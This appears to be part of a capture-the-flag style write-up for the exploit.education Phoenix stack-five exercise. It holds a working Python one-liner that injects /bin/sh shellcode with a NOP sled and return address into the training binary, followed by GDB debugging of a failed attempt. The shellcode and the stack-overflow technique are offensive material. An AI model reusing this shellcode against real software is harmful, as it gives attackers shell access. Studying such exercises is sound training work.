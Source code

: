 ### Exploit  

```
# (shellcode_size=57) + (79 Nops) + reutn address

python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\x90\xe5\xff\xff\xff\x7f'" | ./stack-five
```  

After we ran it, it failed:  
```bash
user@phoenix-amd64:/opt/phoenix/amd64$ python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\x90\xE5\xFF\xFF\xFF\x7F'" | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Illegal instruction
```

The problem is that the return address offered by GDB is different from the one executed from a shell. 
GDB automatically sets two environment variables `LINES` and `COLUMNS`. When they are added, the program stack gets pushed down the address varies.   
To fix it we can unset them in GDB:  
```bash
unset env LINES
unset env COLUMNS
```

There is another option to check for the return address, we can run the program from a shell and attach it with GDB.  
```gdb
# Program is running on a differnet terminal

# Checking the program PID
user@phoenix-amd64:/opt/phoenix/amd64$ ps aux | grep stack-five
phoenix+ 10157  0.0  0.0    752     4 pts/1    S+   12:03   0:00 ./stack-five

user@phoenix-amd64:/opt/phoenix/amd64$ sudo gdb
(gdb) attach 10157

# Breakpoint one line after gets()
(gdb) b *0x4005a1
Breakpoint 1 at 0x4005a1

# Run on the program 'ABBBBC'

# Continue to get the breakpoint
(gdb) c

(gdb) disassemble main       
Dump of assembler code for function main:
   0x00000000004005a4 <+0>:     push   rbp
   0x00000000004005a5 <+1>:     mov    rbp,rsp
   0x00000000004005a8 <+4>:     sub    rsp,0x10
   0x00000000004005ac <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:    mov    edi,0x400620
   0x00000000004005b8 <+20>:    call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:    mov    eax,0x0
   0x00000000004005c2 <+30>:    call   0x40058d <start_level>
   0x00000000004005c7 <+35>:    mov    eax,0x0
   0x00000000004005cc <+40>:    leave  
   0x00000000004005cd <+41>:    ret  
```